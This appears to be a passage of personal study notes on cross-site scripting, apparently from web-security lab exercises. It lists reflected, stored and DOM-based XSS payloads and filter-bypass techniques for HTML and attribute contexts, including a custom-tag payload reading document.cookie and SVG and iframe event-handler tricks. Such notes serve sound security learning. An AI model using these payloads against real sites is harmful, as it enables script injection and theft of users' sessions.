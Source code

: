 # basic attack

#apprentice 
#### reflected
in [[cause & sinks#reflected|this]] case: 
> https://insecure-website.com/search?term=`<script>alert(1)</script>`
#### stored
in [[cause & sinks#stored|this]] case:
> comment=`<script>alert(1)</script>`
#### DOM-based
in [[cause & sinks#DOM-based|this]] case
> `"><svg onload=alert(1)>`

# contexts
## between HTML tags
##### most tags and attributes blocked
`<>` -> `<§§>` -> body tag accepted ->`<body%20§§=1>` -> `onresize` accepted -> `<iframe src="https://vulnerable-website.com/?search="><body onresize=print()>" onload=this.style.width='100px'>`
##### all tags and attributes blocked except custom ones
`<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x'`
##### some SVG markup allowed
`<>` -> `<§§>` -> `<svg>`, `<animatetransform>`, `<title>`,`<image>` accepted-> `<svg><animatetransform%20§§=1>` -> `onbegin` accepted-> `"><svg><animatetransform onbegin=alert(1)>`
## in HTML tag attributes

- **close the tag** ->  `"><script>alert(document.domain)</script>`
	- **same tag** -> **new attribute** ->
	   `" autofocus onfocus=alert(document.domain) x="` (`x="` to gracefully repair the following markup)
	  `"onmouseover="alert(1)`
	- **same tag** -> **same attribute** 
	  -  `<a href="javascript:alert(document.domain)">`
	  - `https://vulnerable-website.com/?'accesskey='x'onclick='alert(1)`